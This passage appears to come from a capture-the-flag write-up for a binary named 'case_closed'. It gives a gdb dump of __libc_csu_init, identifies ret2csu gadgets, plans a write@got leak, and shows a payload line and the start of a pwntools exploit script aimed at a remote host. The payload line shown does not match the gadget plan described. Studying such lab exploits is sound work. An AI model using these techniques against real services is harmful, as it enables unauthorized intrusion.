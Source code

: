 ```gdb
   0x0000000000400b30 <+64>:	mov    rdx,r15 # gadget 2
   0x0000000000400b33 <+67>:	mov    rsi,r14
   0x0000000000400b36 <+70>:	mov    edi,r13d
   0x0000000000400b39 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x0000000000400b3d <+77>:	add    rbx,0x1
   0x0000000000400b41 <+81>:	cmp    rbp,rbx
   0x0000000000400b44 <+84>:	jne    0x400b30 <__libc_csu_init+64>
   0x0000000000400b46 <+86>:	add    rsp,0x8
   0x0000000000400b4a <+90>:	pop    rbx # gadget 1
   0x0000000000400b4b <+91>:	pop    rbp
   0x0000000000400b4c <+92>:	pop    r12
   0x0000000000400b4e <+94>:	pop    r13
   0x0000000000400b50 <+96>:	pop    r14
   0x0000000000400b52 <+98>:	pop    r15
   0x0000000000400b54 <+100>:	ret    
End of assembler dump.
```

#### Gadgets :video_game:

As we can see, our gadgets are:

* gadget 1: `0x400b4a`
* gadget 2: `0x400b30`

It is obvious that whatever we put in `pop r14` will be moved to `rsi`. Apart from that we can see that we can also manipulate `rdi` and `rdx` via `r13` and `r15` respectively. Last but not least, we can call whatever is in `r12` (if we zero out the `rbx`).

Our goal is to call: `write(1, write@got, 0x8)` in order to leak `write@got`.
That means that we need to:

- `pop r12` = `write@got`
- `pop r13` = `1`
- `pop r14` = `write@got`
- `pop r15` = `0x8`

Then, we just need to redirect to `hidden_func` in order to trigger another overflow.

Our final payload will look like this:

```python
payload = junk + p64(pop_rdi) + p64(companion)  + p64(ret) + p64(sys) + p64(exit)
```

### Exploit :scroll:

```python
#!/usr/bin/python3
from pwn import *

ip = '172.17.0.1' # change this
port = 1337 # change this
fname = './case_closed' # change this

LOCAL = False

if LOCAL:
	r = process(fname)
	_libc = '/lib/x86_64-linux-gnu/libc.so.6'
	libc = ELF(_libc)
else:
	r = remote(ip, port)
	_libc = './libc.so.6' # change this
	libc = ELF(_libc)

e = ELF(fname)
```